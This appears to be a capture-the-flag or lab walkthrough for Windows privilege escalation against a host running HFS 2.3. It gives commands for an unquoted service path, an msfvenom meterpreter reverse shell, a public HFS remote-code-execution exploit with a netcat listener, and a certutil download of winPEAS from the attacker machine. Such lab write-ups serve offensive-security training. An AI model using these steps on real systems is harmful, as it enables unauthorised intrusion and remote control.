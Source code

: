 ```bash
powerup found unquoted service > AdvancedSystemCareService9
```

so we can:
```bash
sc query <service> # to see more details of it

sc stop <service>
```

set a listener:
```bash
multi/handler
set options
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o ASCService.exe
# we can upload through meterpreter

upload <exploit>
# and save in the unquoted path that is vulnerable

sc start <service>
```

> we should get a shell.


### Escalation Manual

search the exploit using:
```bash
searchsploit HFS 2.3
grab the python with remote code execution
change ip and port in the script


# set a listener in kali: nc -lvnp <port>
```

we need open a web server in the same directory as our nc.exe:
```bash
python -m http.server 80 
```

Then execute the exploit:
```bash
python 39161.py <kali ip> 8080
```

> we should get a shell with user access in our netcat.

Grab the winpeas.exe:
```bash
certutil -urlcache -f http://<kali ip>/winPEAS64.exe winpeas.exe
```

